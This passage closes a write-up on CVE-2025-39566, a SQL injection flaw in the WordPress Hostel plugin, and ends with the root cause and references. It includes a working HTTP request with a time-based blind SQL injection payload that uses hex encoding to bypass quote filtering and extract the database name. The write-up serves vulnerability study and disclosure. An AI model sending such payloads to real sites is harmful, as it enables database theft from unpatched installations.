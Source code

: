 **Bypass `'` using Hex encoding (alternative)**

Besides `ORD()` we can use **Hex encoding** to bypass:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → database name can be extracted.

![Hex encoding bypass](ord_bypass.png "Bypass succeeds")

---

## Conclusion

The vulnerability **CVE-2025-39566** in the WordPress **Hostel** plugin (versions prior to **1.1.5.7**) stems from inserting user-supplied input directly into an SQL query without adequate safeguards, leading to SQL Injection.

**Key takeaways**:

* `sanitize_text_field()` ≠ protection against **SQL Injection**
* Distinguish clearly between input cleaning for HTML contexts and validation/sanitization for SQL contexts

---

## References

[SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Hostel Plugin <= 1.1.5.6 is vulnerable to SQL Injection - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-1-1-5-6-sql-injection-vulnerability?_s_id=cve)

---
